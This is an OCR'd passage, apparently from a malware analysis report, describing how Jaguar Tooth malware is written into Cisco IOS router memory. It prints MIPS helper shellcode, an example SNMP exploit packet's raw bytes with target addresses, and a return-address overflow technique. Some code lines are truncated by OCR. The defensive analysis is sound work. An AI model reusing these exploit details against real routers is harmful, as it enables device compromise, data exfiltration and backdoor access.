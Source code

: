 **Copy payload**

Uppercasing is disabled using multiple ROP gadgets, the main Jaguar Tooth payload is then copied\
into memory.

To facilitate this, a short piece of helper shellcode is written into memory after the code section. The\
shellcode permits an arbitrary 4 - byte value to be written to a specified address. This is then invoked\
repeatedly across multiple exploit packets in order to incrementally write Jaguar Tooth into memory.

The helper shellcode is set back to NULLs after use.

The helper shellcode is as follows:

```
seg000:81689300 sw $s0, 0($s1)
seg000:81689304 jr $s
```

Each of these registers ($s0, $s1 and $s2) are controlled, providing an arbitrary 4-byte write.

For example:

```
Raw OID bytes
```

```
01 04 01 09 09 5F 01 02 04 01 03 45 41 41 41 41
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 03 E0 00 08 80 41 5F 44
60 E6 E6 1C 03 03 03 03 04 04 04 04 05 05 05 05
06 06 06 06 07 07 07 07 81 68 93 00 41 41 41 41
41
```

```
Register s0 Register s1 Register s
```

This will cause the shellcode to write E0 00 08 80 ($s0) to 0x80415F44 ($s1) and then jump to\
0x60E6E61C ($s2), which is the function epilogue of the outer ALPS function.

**Payload Execution**

Once written into memory, Jaguar Tooth payloads are executed by overflowing the return address of\
the vulnerable function with their location in memory.

**Conclusion**

Jaguar Tooth is non-persistent malware that targets Cisco IOS routers. Capability includes automated\
device information collection that is exfiltrated over TFTP and unauthenticated backdoor access.\
Jaguar Tooth has been observed being deployed via multiple SNMP exploit packets. Whilst the\
payloads deployed are basic, combined with the exploit this malware is assessed to be of low to\
medium sophistication.

**Detection**
